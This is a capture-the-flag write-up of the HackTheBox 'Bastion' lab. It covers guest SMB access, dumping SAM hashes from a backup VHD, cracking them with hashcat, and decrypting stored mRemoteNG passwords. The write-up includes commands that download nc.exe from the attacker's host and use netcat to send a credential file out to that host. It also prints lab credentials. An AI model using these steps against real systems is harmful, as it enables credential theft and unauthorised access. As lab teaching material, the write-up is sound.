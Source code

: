 ```yaml
---
title: "HackTheBox Writeup: Bastion"
date: 2019-09-07T18:20:04+02:00
toc: true
showdate: true
tags:
    - hackthebox
    - writeup
    - ctf
---
```

{{%summary%}}
![img](/images/writeup-bastion/1.png)
{{%/summary%}}

Bastion proved to be a very easy yet pretty fun challenge, quite unique in its kind even if it doesn't present any particular difficulties, all one needs to complete this box is a search engine to learn how to accomplish certain tasks, all of which only take a couple minutes to solve, hence why so many people finished this box despite it not being one of those two clicks to root kind of boxes (I'm looking at you, Blue, Jerry, Lame, etc...). The first half of the challenge involves finding a Windows backup containing an old copy of the SAM database, which when read gives us SSH credentials to log in the box. Once inside the administrator's password must be extracted from the saved settings of a remote sesisons manager.

---

## Drawing the perimeter

I begin by scanning the box with a standard service scan (-sV) and executing the default list of NSE scripts (-sC), and one of the first things one can notice is that nmap found guest login available on SMB:

![img](/images/writeup-bastion/2.png)

We can use this access to list the available shares:

```shell-session
$ smbclient -L 10.10.10.134
```

![img](/images/writeup-bastion/3.png)

Backups seems to be the only unprotected share on the system so let's access it and see what's inside:

```shell-session
$ smbclient \\\\10.10.10.134\\Backups
```

![img](/images/writeup-bastion/4.png)

This whole share contains a Windows backup, in fact if we go further in the directory tree we reach two *.vhd* (Virtual Hard Drive) files, which contain the whole backed up disk:

![img](/images/writeup-bastion/5.png)

One of these files is very big though so downloading it isn't very convenient, also we found a *note.txt* file on the root of the share which gives us a very clear hint on what we shouldn't be doing:

![img](/images/writeup-bastion/6.png)

But there is a solution to this problem. I'm going to mount this share on my own system and then mount the vhd files from there, giving me access to their content without having to download the whole huge file locally. We need to install two additional tools for this task:

```shell-session
$ sudo apt-get install cifs-utils
$ sudo apt-get install libguestfs-tools
```

Then we mount the share on our computer:

```shell-session
$ mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw
```

So now we can access the share from /mnt/remote:

![img](/images/writeup-bastion/7.png)

Once navigated to the folder where the two .vhd files reside we can mount them on our disk with guestmount:

```shell-session
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v
```

So we have the whole disk at our disposal now!

![img](/images/writeup-bastion/8.png)

---

## Stealing user credentials from the SAM file

The Users folder does not contain any flags and really there are only two truly interesting files in the whole backup, those two being SAM and SYSTEM: SAM is where Windows stores user passwords in an encrypted form, SYSTEM is where the encryption key for these passwords is located, so with these two files at hand we can get the credentials of the users. These files are stored in */mnt/vhd/Windows/System32/config/*:

![img](/images/writeup-bastion/9.png)

We can list the users of which the crentials are stored in the SAM file using *chntpw* however if we mounted the virtual disk on a read-only mount we have to copy the file in a different folder first:

```shell-session
$ chntpw -l SAM
```

![img](/images/writeup-bastion/10.png)

The Administrator and Guest accounts appear to be disabled so we cannot retrieve the administrator's password, however L4mpje isn't, so we can dump its hash and crack it with hashcat. First we use *samdump2* to create a text file containing all the hashes:

```shell-session
$ samdump2 ./SYSTEM ./SAM > /home/baud/bastion/hash.txt
```

![img](/images/writeup-bastion/11.png)

The last field is the hashed password, hashed in NTLM. In order for hashcat to crack it we need it to be all uppercase so we can do this with awk:

![img](/images/writeup-bastion/12.png)

Once we have the file with the correct hash in it we can use hashcat for a dictionary attack to crack it, I'm going to use the classic *rockyou.txt* wordlist, which is pretty much always sure to hit the target in CTF challenges:

```shell-session
$ hashcat -m 1000 -a 0 hashcat.txt rockyou.txt --force
```

**-m 1000** tells hashcat what hash type we're cracking, NTLMv2 in our case, and **-a 0** tells it to perform a dictionary attack. --force will run the attack despite hashcat not recognizing what hardware is installed on the computer, since I'm using a VM (installed on a bad laptop, I should add). In just a few seconds we get the results back and the password has been found:

![img](/images/writeup-bastion/13.png)

So now we have a pair of working credentials that we can use to login using the SSH service running on the box:

```shell-session
User: L4mpje
Pass: bureaulampje
```

![img](/images/writeup-bastion/14.png)

And thanks to this we can grab the user.txt flag from our current user's desktop:

![img](/images/writeup-bastion/15.png)

Looking at the installed programs shows something interesting, mRemoteNG is present on the system, which is a program that can manage remote sessions using a variety of protocols such as RDP, VNC, and many more:

![img](/images/writeup-bastion/16.png)

It takes only a few seconds of Googling to find out that mRemoteNG saves the settings of its managed connections locally, these settings also include user passwords given to the program for the establishment of a connection, and there already exist plenty of scripts that are able to decrypt these passwords from their encrypted form. To be more specific, this is how the passwords are stored in encypted form by mRemoteNG:

```shell-session
encrypted_pass = base64(IV + AES-128-CBC(cleartext_pass, md5(mR3m), IV))
```

---

## Privilege escalation: decrypting stored mRemoteNG passwords

All the passwords are stored in a file called confCons.xml which can be found at *%appdata%\mRemoteNG\*:

![img](/images/writeup-bastion/17.png)

The file can be downloaded on our own box using *nc.exe* (or just use *net use* to enable a local share, whatever you prefer), first nc.exe is downloaded on Bastion:

```shell-session
$ powershell Invoke-WebRequest "http://10.10.14.29:8080/nc.exe -OutFile "./nc.exe"
```

Then we set up a netcat listener on our box:

```shell-session
$ nc -lvp 9999 > confCons.xml
```

And then we send the file from Bastion:

```shell-session
$ nc -w 3 10.10.14.29 9999 < %appdata%\mRemoteNG\confCons.xml
```

Once the file is transferred we can open it to see its content and we can notice that one of the saved sessions belongs to the Administrator account:

![img](/images/writeup-bastion/18.png)

Now it's time to decrypt this password. I'm going to use [this](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py) Python script from Github but there even is a Metasploit module to do so if one is already running a meterpreter session, which isn't my case unfortunately:

![img](/images/writeup-bastion/19.png)

So now we have the administrator's credentials too!

```shell-session
User: Administrator
Pass: thXLHM96BeKL0ER2
```

We can use these to login using good old SSH and complete the box by grabbing the root flag:

![img](/images/writeup-bastion/20.png)

And Bastion is done.







